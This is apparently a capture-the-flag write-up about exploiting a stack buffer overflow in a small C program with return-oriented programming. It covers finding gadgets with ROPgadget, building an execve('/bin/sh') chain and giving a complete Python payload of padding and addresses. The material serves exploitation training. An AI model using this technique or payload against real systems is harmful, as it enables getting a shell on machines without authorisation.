

# ROP

To begin, look at the `rop.c` file:

  ```C
  
  #include<stdio.h>

  int main(){
      setvbuf(stdout,0,2,0);
      puts( "ROP attack is easy, isn't it? Show me your skill." );

      char buf[0x20];
      read( 0  , buf , 200 );

      return 0;
  }
  ```
  
From the title, we know that will we be using Return Oriented Programming (ROP) to solve the problem.

So, what we will need is `ROPgadget` to find out ROP chains for us to use.

When we `objdump -d rop`, we can see that the file is extremley <b>BIG</b>. Thus, we probably do not have to worry about missing or lack of gadgets to use.

Our goal is: <b>`execve("/bin/sh\0", 0, 0)`</b>

A easy way to use is using the `.data section` to store the string "/bin/sh\0". 

  * NOTE: rememeber not to overwrite some imortant data in this section.
  
So let's begin!

First, find the address of `.data section`:

  ```
  objdump -D rop | grep data
  ```
  
  
  
As you can see, `.sata setction` starts from `0x6c0060`.

Next, making our ROP chain:

Gadgets we will need are:

  ```ASM
  pop rdi                     ; to set RSI address point to the data section.
  pop rsi                     ; to store tempararily the data section address. (because the binary does not contain "mov qword ptr [rdi], rax ; ret" gadget)
  pop rax                     ; to store temporarily the string "/bin//sh".
  mov QWORD PTR [rsi], rax    ; to move the string to the address pointed by rsi. (the data section address)
  ```

So this is our command below.

  ```
  ROPgadget --binary rop | egrep 'pop rsi ; ret|pop rax ; ret|mov qword ptr \[rsi\], rax ; ret|pop rdi ; ret'
  ```
After we get the addresses, we can start writing our payload.

The steps for the ROP chain are:
   
  ```ASM
  pop rsi ; ret  
  data section address      
  pop rax ; ret
  '/bin//sh'                
  mov qword ptr [rsi],rax ; ret
  pop rdi ; ret             
  data section address
  pop rdx ; pop rsi ; ret   
  set rdx = null
  set rsi = null            
  pop rax ; ret
  set rax = 59    
  syscall ; ret
  ```
  
And for our padding, take a look at `objdump`:

  ```
  40108e:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
  401092:	ba c8 00 00 00       	mov    $0xc8,%edx
  401097:	48 89 c6             	mov    %rax,%rsi
  40109a:	bf 00 00 00 00       	mov    $0x0,%edi
  40109f:	b8 00 00 00 00       	mov    $0x0,%eax
  4010a4:	e8 b7 31 03 00       	callq  434260 <__libc_read>
  ```
We can see it starts to read to `rbp - 0x20`, so our padding should be 0x28 bytes.

Therefore our final payload will be:

  ```Python
  p.sendline(b"A"*0x28 + b"\xa7\x17\x40\x00" + b"\x00\x00\x00\x00" + 
	   b"\x60\x00\x6c\x00" + b"\x00\x00\x00\x00" + b"\x08\xb4\x46\x00" + b"\x00\x00\x00\x00" +
	   b'/bin//sh' + b"\xd1\x7a\x46\x00" + b"\x00\x00\x00\x00" + 
	   b"\x93\x16\x40\x00" + b"\x00\x00\x00\x00" + b"\x60\x00\x6c\x00" + b"\x00\x00\x00\x00" +
	   b"\xf9\x71\x43\x00" + b"\x00\x00\x00\x00" + b"\x00\x00\x00\x00" + b"\x00\x00\x00\x00" +
	   b"\x00\x00\x00\x00" + b"\x00\x00\x00\x00" + b"\x08\xb4\x46\x00" + b"\x00\x00\x00\x00" +
	   b"\x3b\x00\x00\x00" + b"\x00\x00\x00\x00" + b"\xc5\xb4\x45\x00" + b"\x00\x00\x00\x00" )
  ```

  
  


  
  
  
  

